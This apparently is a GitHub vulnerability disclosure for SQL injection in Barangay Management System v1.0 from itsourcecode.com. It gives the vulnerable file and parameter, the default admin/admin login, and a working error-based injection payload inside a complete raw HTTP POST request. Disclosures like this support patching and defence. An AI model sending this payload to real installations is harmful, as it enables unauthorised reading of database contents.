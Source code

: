 # Barangay Management System v1.0 by itsourcecode.com has SQL injection

The decompression password for the source file is itsourcecode.

Login account: admin/admin (Super Admin account)

vendors: https://itsourcecode.com/free-projects/php-project/barangay-management-system-project-in-php-with-source-code/

Vulnerability File: /bmis/pages/permit/permit.php

Vulnerability location: /bmis/pages/permit/permit.php,hidden_id

[+] Payload: hidden_id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> hidden_id

```sql
POST /bmis/pages/permit/permit.php HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/bmis/pages/permit/permit.php
Cookie: sessions=aj0k5o11d743ingah9kp1b0ejntrqer6; PHPSESSID=fbu82ocu8kd37b5b20uqq71a35; _ga=GA1.1.1382961971.1655097107; _gid=GA1.1.804632123.1655097107
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 205

hidden_id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+&txt_edit_busname=1&txt_edit_busadd=1&ddl_edit_tob=&txt_edit_ornum=1&txt_edit_amount=1&btn_save=Save&table_length=10&table1_length=10
```

![image](https://user-images.githubusercontent.com/54017627/173301548-9be4f945-03ca-4057-8648-03f91b76dc9d.png)
